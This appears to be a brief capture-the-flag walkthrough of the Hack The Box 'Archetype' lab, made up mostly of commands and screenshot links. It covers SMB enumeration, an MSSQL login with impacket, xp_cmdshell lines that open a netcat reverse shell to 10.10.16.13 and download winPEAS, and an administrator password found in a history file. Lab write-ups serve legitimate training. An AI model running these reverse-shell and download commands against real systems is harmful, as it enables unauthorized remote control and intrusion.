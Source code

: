 portscan
nmap -sV -sC  10.129.95.187    
![Screenshot_2022-11-10_20-51-21](https://user-images.githubusercontent.com/117921636/201245029-fecc91d1-8657-4b02-a94b-4d1ea929c8ac.png)

smbclient -N -L \\\\10.129.95.187\\
![smb hack](https://user-images.githubusercontent.com/117921636/201246057-f5358ec9-424f-43a8-b5e6-0847e87b35e9.png)

smbclient -N \\\\10.129.95.187\\    
![smb -N](https://user-images.githubusercontent.com/117921636/201247648-6c206c02-f711-4802-be79-8eb6e1c71e25.png)

dts.config
![dts config](https://user-images.githubusercontent.com/117921636/201248627-0214d329-c584-475b-b566-45b8d2ef5749.png)

/usr/bin/impacket-mssqlclient ARCHETYPE/sql_svc@10.129.95.187 -windows-auth
![impacket1](https://user-images.githubusercontent.com/117921636/201252940-5beb1807-b572-49dc-9933-931caa9f68d9.png)

sudo python3 -m http.server 80  
![port80 server](https://user-images.githubusercontent.com/117921636/201254501-043a1fae-5a08-4cf2-b189-628ef8cfb4d0.png)

nc -lvnp 4444
listening on [any] 4444 ...

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.13 4444"   
nc -lvnp 4444    
![nc -lvnp receive](https://user-images.githubusercontent.com/117921636/201256118-1f41e097-7ebc-45b4-8dab-99cb51de755a.png)
 user.txt    
 ![user txt](https://user-images.githubusercontent.com/117921636/201257417-c086d63e-21b5-4bca-b3a7-d8ca7df638ab.png)

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.13/winPEASx64.exe -outfile winPASx64.exe"      
![impacket-mssqlclient](https://user-images.githubusercontent.com/117921636/201258533-de987891-597f-45dc-8881-1353fa1c5928.png)

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.16.13 4444"

winPEASx64.exe  
![winpeasx64](https://user-images.githubusercontent.com/117921636/201262873-64090350-4378-41f3-b49e-0c60ea44e08c.png)


ConsoleHost_history.txt   
![ConsoleHost_history txt](https://user-images.githubusercontent.com/117921636/201263384-b8103848-47e2-412e-a657-f55cda41b5eb.png)

echo "/user:administrator MEGACORP_4dm1nping 10.129.95.187" > admin.txt

![root get](https://user-images.githubusercontent.com/117921636/201265565-776e430a-dfbd-4f94-94c8-9b124977cda9.png)

![root](https://user-images.githubusercontent.com/117921636/201265577-8f9a8cd4-f160-41d0-8c9e-c6eafdd554b6.png)

